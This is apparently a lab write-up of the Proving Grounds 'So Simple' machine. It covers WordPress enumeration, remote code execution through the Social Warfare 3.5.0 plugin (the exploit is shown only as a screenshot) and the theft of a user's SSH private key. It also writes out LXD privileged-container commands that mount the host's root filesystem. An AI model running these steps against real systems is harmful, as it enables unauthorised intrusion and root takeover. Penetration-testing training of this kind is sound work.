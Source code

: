 * * *
 ### LAB: SO SIMPLE
 ### PLATFORM: PROVING GROUNDS
* * *

- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/583ce09b-3d2e-469c-8439-628f7c7c3030)

- FFuf spotted a wordpress directory    

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4bec41f2-29fa-408b-ae90-a2693dfef8bd)

- Scanning with `wpscan --url <url>` for information about the wordpress site and a particular plugin caught my attention which is the `social warfare wp plugin`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37b131e1-0088-4bc5-bb3e-5ada1bbeae4f)

- `Social warfare 3.5.0` has an unauthenticated remote code execution flaw.I wrote an exploit for it

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d19b707b-33d6-416d-98de-a1ba6822de1f)
  
- Now we have a stabilied shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63442927-533b-4cb6-b500-e2c243f89549)

### Road to PRIVESC 

- One of the user Max has a private key in his `.ssh` directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cfb16a3d-6959-4588-8fdd-de9a3a2c6afe)

- We can send the file with python http.server to our machine, change permissions with `chmod 600 <id_rsa>` and ssh to max's account

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/daa34c20-99a8-424c-a5f4-25111ffdb8b8)

### Privilege escalation with lxd user

- I ran `id` and discovered that his account is part of the user group

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd539238-3616-42ca-ab70-4cdb8f471882)

- I ran this bash one-liner `cat /etc/passwd | grep "lxd"` to check if lxd is a user

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cabd4c6b-d5f4-47ff-8a40-99b855d37f38)

- I checked if lxd has a running process with `ps -ef | grep -i "lxd\|lxc"`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d54e4a2-233d-4cfe-b4bd-fce90a703b06)

- I used this commands to build an lxd image as root on the host machine

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine

- Use a directory like `/dev/shm` or `/tmp` to receive the alpine image
- Set up a python http server and send the recent image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4ea75f7d-8504-43fa-a3dd-801f02bc7236)

- Receive it on `/tmp/` to initialize the image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b4dac9c1-aef5-4e62-aa18-43286b897811)

- Create a storage pool with `lxd init`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/23511f48-5d10-481d-aa8d-f120e604ea71)

- Import the image with this command

       lxc image import alpine-v3.16-x86_64-20221112_0508.tar.gz --alias alpine

- List images with

      lxc image list

- Use the commands below to initialize the images in /tmp 

      lxc init alpine juggernaut -c security.privileged=true
      lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
      lxc start juggernaut
      lxc list

  ![Uploading image.png…]()

 - To execute the container use `lxc exec juggernaut sh` 

  
  

  
